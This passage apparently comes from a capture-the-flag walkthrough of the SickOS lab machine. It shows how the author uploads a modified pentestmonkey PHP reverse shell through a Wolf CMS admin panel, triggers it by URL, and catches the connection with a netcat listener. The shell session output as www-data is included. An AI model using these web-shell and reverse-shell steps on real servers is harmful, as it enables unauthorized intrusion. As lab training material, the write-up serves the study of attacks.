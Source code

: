 With this in mind, now seems like a good time to thinking about upload a PHP-Reverse-Shell! Pentestmonkey springs to mind! A quick visit to his site [Pentestmonkey.net](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) lets us nab a copy of his:

I modified the code to suit our scenario.

```nohighlight
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.174';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
```

As I now know from the Nikto/Dirb scans there are publicly accessible/browsable directories available on the host via the web browser. One of these dir's is '/public/images'. This seems like a good location to upload our shell to. Through our Administrator console

Selecting the 'Files' option:

![Wolf Admin](/images/SickOS/Wolfcms-fileupload.png)

Uploading the php-reverse-shell file to the '/public/images' directory is successful.

**Exploit time...**

Starting a netcat listener on my host allows me to catch the incoming connection from our reverse shell that I uploaded:

```nohighlight
nc -lvp 1234
```

Then by browsing to the reverse shell URL:

```nohighlight
http://192.168.1.94/wolfcms/public/images/
```

We can now trigger our reverse php shell though this URL and have the server run the code that will initiate our reverse shell. This will then activate on our attacking host terminal where my netcat listener is waiting for incoming connections:

```nohighlight
root@Shadow:~# nc -l -v -p 1234
listening on [any] 1234 ...
connect to [192.168.1.174] from SickOs.home [192.168.1.94] 41618
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 15:29:06 up 31 min,  0 users,  load average: 0.01, 0.05, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ ls
```